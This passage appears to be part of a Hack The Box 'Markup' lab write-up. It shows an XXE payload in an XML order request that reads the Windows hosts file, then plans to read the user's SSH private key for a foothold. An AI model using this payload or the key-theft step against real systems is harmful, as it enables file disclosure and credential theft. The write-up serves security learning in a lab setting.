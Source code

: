 - it is working

### <u>Read File</u>
- Now, Let's try to `read a file with it`
- So, I'm gonna insert this command



 ```xml
<?xml version = "1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "file:///c:/windows/system32/drivers/etc/hosts"> ]>
<order>
    <quantity>
        1
    </quantity>
    <item>
        &example;
    </item>
    <address>
        Bed for sleeping of course
    </address>
</order>
 ```
 
 - the result

![1](/assets/images/htb/markup/host.png)

- Wow! It works

# <u>2:Foothold/Gaining Access</u>
- Remember this machine has `SSH open`.
- Let's try to read the `SSH private key`
- Windows SSH key locate here: `C:\Users\USERNAME\.ssh\`
